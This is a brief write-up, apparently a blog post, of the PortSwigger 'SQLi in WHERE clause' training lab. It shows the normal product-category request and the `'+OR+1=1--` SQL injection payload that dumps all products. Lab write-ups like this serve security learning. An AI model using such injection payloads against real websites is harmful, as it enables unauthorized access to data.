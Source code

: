 ```yaml
---
title: 🕸️ PSA - SQLi 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

Show all the products no matter the category.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

With payload:

````text
<website>/products?category='+OR+1=1--
````
